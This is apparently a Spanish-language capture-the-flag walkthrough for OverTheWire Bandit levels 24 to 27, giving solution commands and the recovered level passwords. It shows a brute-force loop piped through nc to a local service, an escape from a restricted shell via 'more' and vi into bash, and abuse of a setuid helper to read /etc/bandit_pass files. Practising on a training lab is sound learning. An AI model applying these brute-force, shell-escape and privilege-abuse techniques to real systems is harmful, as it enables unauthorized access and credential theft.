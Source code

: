 
## Bandit Level 24 → Level 25

* SSH: ssh -o PubkeyAuthentication=no -p2220 bandit24@bandit.labs.overthewire.org
* Solución: 

```bash
$ cd /tmp
$ mkdir fcch-pass25; cd fcch-pass25; touch genpass.sh
$ vim genpass.sh
-- #!/bin/bash
-- pass=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
-- for i in {0000..9999} 
-- do
--    echo $pass $i >> pass25.txt
-- done
$ cat pass25,txt | nc localhost 30001
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

## Bandit Level 25 → Level 26

* SSH: ssh -o PubkeyAuthentication=no -p2220 bandit25@bandit.labs.overthewire.org
* Solución: 

```bash
$ file bandit26.sshkey
$ ssh -i bandit26.sshkey bandit26@localhost
$ cat /etc/passwd
$ cat /etc/passwd | grep bandit26
$ cat /usr/bin/showtext
-- #!/bin/sh
-- export TERM=linux
-- more ~/text.txt
-- exit 0
# Por el comando "more" en el script se debe redimensionar la ventana de la terminal a un tamaño pequeño.
$ ssh -i bandit26.sshkey bandit26@localhost
# -- More -- con esta pantalla podemos ingresar a la pantalla de ayuda del comando "More" tecleando "h", luego podemos iniciar el editor vi tecleando la tecla "v" (/usr/bin/vi), dentro del editor tecleamos ":set shell=/bin/bash" y aun dentro de vi ":shell".
$ cat /etc/bandit_pass/bandit26
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```

## Bandit Level 26 → Level 27

* SSH: ssh -i bandit26.sshkey bandit26@localhost
* Solución:

```bash
$ ls -la
$ file bandit27-do
$ cat text.txt
$ ./bandit27-do id
$ ./bandit27-do whoami
$ echo 'cat /etc/bandit_pass/bandit27' > /tmp/getpass27.sh
$ chmod a+x /tmp/getpass27.sh
$ ./bandit27-do /tmp/getpass27.sh
3ba3118a22e93127a4ed485be72ef5ea
```
